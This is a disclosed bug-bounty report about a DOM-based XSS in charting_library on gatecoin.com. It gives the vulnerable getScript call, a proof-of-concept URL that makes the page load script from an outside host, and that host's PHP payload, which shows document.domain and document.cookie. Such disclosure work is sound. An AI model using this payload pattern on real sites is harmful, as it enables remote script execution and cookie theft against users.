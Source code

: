 # DOM Based XSS charting_library

## Report Details
- **Report ID**: 351275
- **URL**: https://hackerone.com/reports/351275
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-05-14T07:47:27.514Z
- **Disclosed**: 2018-10-19T07:53:26.464Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gatecoin

## Vulnerability Information
**Description**
charting_library contains a DOM Based XSS vulnerability that allows to load an external JS script and execute it.

**PoC**
Open URL in any browser
```
https://gatecoin.com/widget-trade/assets/charting_library/static/tv-chart.html#indicatorsFile=//blackfan.ru/tv-chart-poc&disabledFeatures=[]&enabledFeatures=[]
```

**Vulnerable script**
https://gatecoin.com/widget-trade/assets/charting_library/static/bundles/library.js

**Vulnerable code**
```js
$.getScript(urlParams.indicatorsFile)
```

blackfan.ru/tv-chart-poc source
```php
<?php
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Headers: cache-control, X-Requested-With");
?>
alert(document.domain); 
alert(document.cookie); 
```

## Impact

DOM Based XSS

## Attachments
No attachments
